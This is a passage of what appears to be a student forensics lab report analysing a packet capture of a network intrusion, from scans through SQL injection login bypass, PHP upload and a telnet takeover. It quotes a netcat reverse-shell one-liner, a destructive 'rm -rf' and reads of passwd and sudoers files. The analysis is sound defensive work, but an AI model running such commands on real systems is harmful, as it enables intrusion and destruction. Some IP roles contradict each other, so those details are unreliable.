\section{LAN Dump}
\subsection{Analysis of the attack}
The attacker did the following actions:
\begin{itemize}
    \item he scanned the network for hosts (seen in frames \#12 - \#453 (\& \#456)). By doing an ARP SCAN (Arp Broadcast) the attacker easily know all active hosts in the network 
    \item he started a port scan against 10.13.37.137 (seen in frames \#455 - \#4685)
    \item In the end he tried also if ports 21 22 and 23 (FTP, SSH, and telnet) were available. (seen in frames \#4685 - \#4715)
    \item he then opened a web page on the attacked host (seen in frames \#4718 - \#4744). The attacker could find out that the login form sends its data to index.php
    \item the he executed a dictionary attack on ftp for user webadmin. It was a dictionary attack because the tested passwords made sense and weren't randomly generated passwords. (seen in frames \#4763 - \#8438)
    \item he tried SSH Key Scan (seen in frames \#8439 - \#9919)
    \item after guessing some passwords and not being able to login the user used sql injection to bypass authentication and successfully login.
    \begin{center}
        
\includegraphics{imgs/sqlinjecton.PNG}
    \end{center}
    \item he then uploaded the 'badPHP.php' script using the 'Upload Report' function (seen in frames \#10067 - \#10078) and called it (\#10079) without success
    \item he managed to open a telnet session between his machine and the attacked server (at the end of the dump), by using the the user webadmin and password password1, who the attacker found after the dictionary attack.
    \item and he tried deleting the web application (\#10198)
    \item he saw that he was in the sudoers file (\#10286) and changed the mode to all files in upload to 777
    \item he executed the 'badPHP.php' script and replaced the content of 'index.php' with its content.
    \begin{verbatim}
        (_)
         _  ___  _   _
        | |/ _ \| | | |
        | | (_) | |_| |
        |_|\___/ \__,_|

           If you behave well, you might get a present soon.
           After all, I know my way around "scripts" ;-)
        --M00NL16H7
    \end{verbatim}
    \item he then tried to cover his tracks (\#10383)
\end{itemize}

So to conclude the used attacks are these: 
\begin{itemize}
    \item Arp SCAN (Arp Broadcast)
    \item Port SCAN
    \item Dictionary Attack
    \item SSH Key Scan
    \item SQL Injection
\end{itemize}

\subsection{File Upload}
By using Sql Injection the attacker was redirected to reports page, where he could upload a file.
The file uploaded was the script 'badPHP.php'.
It took him less than a second to upload the file.

\subsection{Network environment}
In this LAN Dump are these ip addresses to be found: 
\begin{itemize}
    \item 10.13.37.137 as attacker
    \item 10.13.37.42 a webserver in the role of the victim 
    \item 10.13.37.48 as an active host
    \item 10.0.2.15 and 10.0.2.15 (dns)
\end{itemize}

\subsection{Covering Tracks and manipulated Files}
By successfully being able to communicate with telnet in the end the attacker tried to cover the tracks by trying to detach the screen session that came from his ip address. 
\begin{verbatim}
sudo screen -dmS reverse_shell bash -c 'sleep 30; nc -e /bin/sh 10.13.37.137 1239'
\end{verbatim}

In his telnet session he manipulated these files.
\begin{itemize}
    \item Removing the web application
        \begin{verbatim} rm -rf web \end{verbatim} 
    \item Checking who is root
    \begin{verbatim} grep 'x:0:' /etc/passwd \end{verbatim} 
    \begin{verbatim} grep root /etc/group \end{verbatim}
    \begin{verbatim} sudo cat /etc/sudoers \end{verbatim}
    \item He change the access permission of folder upload to all.
    \item He modified index.php with the content of the badPHP.php file.
\end{itemize}

\subsection{Targeted Attacks}
The attacker tried connecting to 10.13.37.137 using FTP and the user 'webadmin' multiple times.
This can be seen in frames \#4795 - \#8419

He managed to find the 'webadmin' password (password1) in frame \#8390 with the acknowledgement coming in frame \#8395.
He uses that password later to perform a telnet connection to the attacked server

The attacker tried bruteforcing SSH (seen in frames \#8442 - \#9919)
with the user 'john' (e.g., in packet \#8575) without success.

The attacker tried logging in through the web interface with the user 'admin'
(e.g. frame \#9950) without success. Eventually though, he managed to login with the
user 'username' and the password 'password' (frame \#10054).

The attacker tried logging in using telnet with the following username-password combinations:
\begin{itemize}
    \item root:tryme - the attempt was unsuccessful (seen in frames \#10128 - \#10137)
    \item webadmin:password1 - the attempt was successful (Password he got from Dictionary attack)
\end{itemize}

\subsection{Name}
The name of the attacker is to be found in frame \#10321.
I found it while going through the telnet session between the two servers.
